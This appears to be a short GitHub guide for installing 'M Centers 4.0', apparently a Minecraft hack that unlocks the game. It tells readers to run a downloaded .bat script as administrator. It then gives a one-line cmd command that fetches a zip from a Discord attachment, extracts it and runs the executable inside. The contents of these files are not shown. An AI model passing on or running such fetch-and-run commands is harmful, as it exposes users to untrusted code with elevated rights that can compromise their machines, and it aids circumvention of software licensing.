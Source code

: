 # Hey Y'all! 
###### Requested by [@miqumi](https://github.com/miqumi)

I see yall having problems with mc, here's a guide  

**1. Backup MC**  
	Its EZ! Just click the below 📄 icon to grab the latest version of the BackupMC tool by @miqumi!  
 	[![download](../assets/document_backupmc.png)](https://cdn.discordapp.com/attachments/1010814391555457155/1135472253757309008/mcbackup.bat)  
 	Now run the downloaded BackupMC tool as admin!  
 	Press B for Backup and R for restore!  
  
**2. Update MC**
	Pretty Straightforward!  
	Just go to [this link](https://github.com/bernarddesfosse/onix_compatible_appx/releases/latest) and download the latest MC appx, and update using it.  
	(SKIP IF YOU ALREADY ARE ON THE LATEST VERSION)  
  
**3. Run the hackfile!**
	Yup! Its the easiest part!   
	Just run the command in cmd  
	```cd %USERPROFILE%\Desktop && curl -O https://cdn.discordapp.com/attachments/1010814391555457155/1135487859235758080/ignore.zip && powershell Expand-Archive -Path ignore.zip -DestinationPath %USERPROFILE%\Desktop\MCHACK && del ignore.zip && cd MCHACK && "M Centers 4.0.exe" && exit```


# AND ITS HERE!!!